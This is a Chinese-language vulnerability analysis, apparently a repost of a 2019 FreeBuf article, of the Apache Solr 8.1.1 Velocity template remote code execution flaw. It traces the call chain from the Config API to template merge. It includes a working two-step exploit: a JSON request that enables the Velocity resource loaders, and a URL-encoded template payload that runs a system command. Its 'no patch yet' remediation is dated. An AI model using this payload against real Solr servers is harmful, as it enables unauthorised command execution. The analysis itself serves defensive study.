# Apache Solr最新RCE漏洞分析 - FreeBuf网络安全行业门户

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：实验8.1.1，core、Config API写能力与Velocity模板loader启用
- 证据范围：从SolrConfigHandler到writer/engine/template.merge的独立调用链值得保留，不应与纯PoC全文去重。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 标题最新0day/尚无补丁是2019历史状态，应加时间标签与后续17558公告关联
- Velocity基础语法含弯引号和缺$示例，非可直接执行代码
- 需区分params与configset资源loader并解释是否两项都是该利用的必要条件
- 缺权限/持久修改恢复及后续修复版本

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [www.freebuf.com](https://www.freebuf.com/vuls/218730.html) Apache Solr最新RCE漏洞分析 [平安银行应用安全团队](https://www.freebuf.com/author/平安银行应用安全团队) 2019-11-01 13:30:59 367535 3

引言
--

**Apache Solr爆出RCE 0day漏洞（漏洞编号未给出），这里简单的复现了对象，对整个RCE的流程做了一下分析，供各位看官参考。**

漏洞复现
----

复现版本：8.1.1

实现RCE，需要分两步，首先确认，应用开启了某个core（可以在Core Admin中查看），实例中应用开启了mycore，



然后先向其config接口发送以下json数据，

```
{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
} 
```



接着访问如下url，即可实现RCE，

```
/solr/mycore/select?wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27whoami%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end 
```

原理
--

首先去分析第一个数据包，因为是对mycore的配置，所以我们先把断点打在处理配置请求的SolrConfigHandler的handleRequestBody函数上，



因为是POST的请求，跟进handlePOST函数，



在handlePOST中，先取出mycore的当前配置，再和我们发送的配置同时带进handleCommands函数，并在后续的操作中，最终进到addNamedPlugin函数，创建了一个VelocityResponseWriter对象，该对象的 solr.resource.loader.enabled和params.resource.loader.enabled的值设置成了true，该对象的name为velocity。



然后在发送第二个数据包的时候，在HttpSolrCall.call中获取responseWriter的时候，会根据参数wt的值去获取reponseWriter对象，当wt为velocity时，获取的就是我们精心配置过的VelocityResponseWriter





在后续一连串调用后最终进入我们本次漏洞中最重的的VelocityResponseWriter.write函数，首先调用createEngine函数，生成了包含custom.vrm->payload的恶意template的engine，



恶意的template放在engine的overridingProperties的params.resource.loader.instance和solr.resource.loader.instance中



这里有一个很重要的点，要想让恶意template进入params.resource.loader.instance和solr.resource.loader.instance中，是需要保证paramsResourceLoaderEnabled和solrResourceLoaderEnabled为True的，这也就是我们第一个数据包做的事情，



然后再VelocityResponseWriter.getTemplate就会根据我们提交的v.template参数获取我们构造的恶意template



最终取出了恶意的template，并调用了它的merge方法，



要了解这个template就需要了解一下Velocity Java 模板引擎（因为这个tmplate是org.apache.velocity.Template类对象），官方说法翻译一下如下，

```
Velocity是一个基于Java的模板引擎。它允许任何人使用简单但功能强大的模板语言来引用Java代码中定义的对象 
```

从这个说法，就能看出这个模板引擎是具有执行java代码的功能的，我们只需了解一下它的基本写法，

```
// 变量定义
#set($name =“velocity”)
// 变量赋值
#set($foo = $bar)
// 函数调用
#set($foo =“hello”) #set(foo.name=bar.name) #set(foo.name=bar.getName($arg)) 
// 循环语法
#foreach($element in $list)
 This is $element
 $velocityCount
#end
// 执行模板
template.merge(context, writer); 
```

有了上面这些基本的语法介绍，我们就能理解payload的构造方法了，如果希望更深入的了解，可以自行再去查阅Velocity Java 的资料，我们这里不再深入。

于是通过最后调用的恶意template的merge方法，成功造成了RCE，最后补上关键的调用链。



修复方案
----

目前官方还未给出补丁，建议对solr做一下访问限制吧。

***本文作者：Glassy@平安银行应用安全团队，转载请注明来自FreeBuf.COM**

本文作者：平安银行应用安全团队， 转载请注明来自[FreeBuf.COM](https://www.freebuf.com)

# 漏洞分析 # apache # RCE漏洞 # Solr

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
